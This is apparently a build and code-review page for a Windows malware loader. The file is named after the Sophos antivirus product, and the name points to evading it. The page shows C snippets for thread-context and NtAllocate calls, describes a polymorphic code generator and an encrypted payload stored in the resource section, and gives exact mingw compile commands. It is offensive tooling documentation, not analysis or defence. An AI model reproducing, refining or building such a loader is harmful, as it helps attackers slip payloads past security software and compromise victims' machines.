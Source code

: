 
## Code Quality Improvements

### Critical Fixes Applied
1. **CONTEXT Alignment Bug** - MUST be 16-byte aligned on x64 or crashes
2. **NULL Pointer Checks** - Validate GetProcAddress results
3. **Error Handling** - Proper cleanup on all failure paths
4. **String Safety** - Include `<string.h>` for memcpy

### Before Expert Review (Would Crash):
```c
CONTEXT ctx = {0};  // NOT aligned - crashes on x64
NtAllocate = GetProcAddress(...);
NtAllocate(...);  // No NULL check - crashes if API unavailable
```

### After Expert Review (Stable):
```c
CONTEXT ctx __attribute__((aligned(16))) = {0};  // 16-byte aligned
NtAllocate = GetProcAddress(...);
if (!NtAllocate) {  // NULL check
    CloseHandle(hProc);
    return FALSE;
}
NtAllocate(...);  // Safe to call
```

---

## Compilation Process

### Build Command
```bash
# 1. Generate polymorphic code
python3 build_iteration6.py

# 2. Compile resource file
x86_64-w64-mingw32-windres payload_iter6.rc -o payload_iter6.o

# 3. Compile and link
x86_64-w64-mingw32-gcc -O2 -s \
  -ffunction-sections -fdata-sections \
  sophos_iter6.c payload_iter6.o \
  -o compiled/sophos_iter6.exe \
  -Wl,--gc-sections -lntdll
```

### Binary Characteristics
- **Size:** 17KB
- **Architecture:** x64 (Windows 10/11)
- **Sections:** .text, .data, .rsrc (payload in .rsrc)
- **Imports:** kernel32.dll, ntdll.dll (minimal)
- **Entropy:** Moderate (encrypted payload increases entropy)

---